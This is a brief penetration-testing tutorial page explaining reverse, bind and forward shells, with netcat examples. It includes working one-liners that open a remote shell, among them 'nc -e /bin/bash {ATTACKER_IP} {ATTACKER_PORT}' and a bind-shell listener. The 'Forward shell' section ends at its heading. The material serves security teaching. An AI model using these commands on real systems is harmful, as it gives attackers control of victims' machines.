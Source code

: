 # Reverse shell

It is a technique that allows an attacker to connect to a remote machine from a machine owned by the attacker. That is, a connection is established from the compromised machine to the attacker's machine. This is achieved by executing a malicious program or a specific instruction on the remote machine that establishes the connection back to the attacker's machine, allowing the attacker to take control of the remote machine.

For example, to perform a Reverse Shell with netcat we must execute the following command from the attacking machine:

```shell
nc -nlvp {PORT}
```

And this one from the victim machine:

```shell
nc -e /bin/bash {ATTACKER_IP} {ATTACKER_PORT}
```

Finally we can obtain an interactive shell (tty) in order to make the shell prettier:

```shell
script /dev/null -c bash
```

Other examples with other ways to obtain reverse shells can be found on [this page](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

# Bind shell

This technique is the opposite of Reverse Shell, since instead of the compromised machine connecting to the attacker's machine, it is the attacker who connects to the compromised machine. The attacker listens on a given port and the compromised machine accepts the incoming connection on that port. The attacker then has console access to the compromised machine, allowing him to take control of the compromised machine.

For example, to perform a Bind Shell with netcat we must execute the following command from the victim machine to offer a shell to the attacker:

```shell
nc -nlvp {PORT} -e /bin/bash
```

And this one from the attacker machine:

```shell
nc {VICTIM_IP} {VICTIM_PORT}
```

Finally we can obtain an interactive shell (tty) in order to make the shell prettier:

```shell
script /dev/null -c bash
```

# Forward shell

